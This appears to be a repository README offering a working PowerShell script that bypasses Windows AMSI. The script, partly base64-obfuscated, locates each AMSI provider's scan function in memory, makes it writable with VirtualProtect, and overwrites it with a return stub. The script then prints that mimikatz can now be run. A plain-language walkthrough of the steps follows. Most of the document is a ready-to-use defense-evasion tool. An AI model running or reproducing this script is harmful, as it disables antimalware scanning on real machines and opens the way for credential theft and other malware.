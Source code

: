 ## Overview

This repository houses a PowerShell script engineered to circumvent the AMSI. AMSI serves as a security feature, allowing integration with antivirus and antimalware products to bolster threat protection. 

## Script
```pwsh
$g = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw0KdXNpbmcgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzOw0KcHVibGljIGNsYXNzIEFwaXMgew0KICBbRGxsSW1wb3J0KCJrZXJuZWwzMiIpXQ0KICBwdWJsaWMgc3RhdGljIGV4dGVybiBib29sIFZpcnR1YWxQcm90ZWN0KEludFB0ciBscEFkZHJlc3MsIFVJbnRQdHIgZHdTaXplLCB1aW50IGZsTmV3UHJvdGVjdCwgb3V0IHVpbnQgbHBmbE9sZFByb3RlY3QpOw0KICBbRGxsSW1wb3J0KCJhbXNpIildDQogIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBBbXNpSW5pdGlhbGl6ZShzdHJpbmcgYXBwTmFtZSwgb3V0IEludDY0IGNvbnRleHQpOw0KfQ=='))

Add-Type $g

$r = [Convert]::FromBase64String('uLgA/wDD')
$y = 0; $i = 0
$SIZE_OF_PTR = 8
[Int64]$z = 0

# Initializing AMSI
try {
    [Apis]::AmsiInitialize("MyScanner", [ref]$z)
    Write-Host "AMSI initialized successfully. Context: $z"

    # Retrieve pointers for AMSI providers
    $b = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$z, 16)
    Write-Host "Providers pointer: $b"

    $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64)
    Write-Host "Initial provider pointer: $c"
} catch {
    Write-Host "Error during AMSI initialization or pointer retrieval: $_"
    exit 1
}

# Iterate through AMSI providers
try {
    while ($c -ne 0) {
        $d = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$c)
        $e = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$d, 24)
        Write-Host "[$i] Provider's scan function found at address: $e"

        if (![Apis]::VirtualProtect($e, [uint32]6, 0x40, [ref]$y)) {
            throw "Failed to change memory protection at address: $e"
        }

        [System.Runtime.InteropServices.Marshal]::Copy($r, 0, [IntPtr]$e, 6)
        Write-Host "[$i] Scan function patched successfully."

        $i++
        $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64 + ($i * $SIZE_OF_PTR))
    }
    Write-Host "Patching completed successfully."
    Write-Host "You can Invoke mimikatz now (: "
} catch {
    Write-Host "Error during provider iteration and patching: $_"
    exit 1
}
```



## Script Approach
**Initializing AMSI and Retrieving Pointers**: 


The script starts by setting up AMSI and getting pointers, which are like signposts pointing to important parts of AMSI.

**Finding Scan Functions**: 


It then looks through these pointers to find where AMSI does its scanning work, kind of like finding where a detective does their investigation.

**Patching Scan Functions with RET 0**: 


When it finds these scanning spots, the script changes them so that when they're called, they immediately stop and say "everything's okay." This makes the scans skip right over any potentially harmful stuff.

**Changing Memory Access**: 


Before making these changes, the script adjusts the way the computer sees these scanning spots so it can make changes to them, kind of like getting permission to edit a document.

**Covering All Bases**: 


The script repeats these steps for every way AMSI does its scanning, ensuring that no matter how AMSI checks for bad stuff, the script can sneak past it.
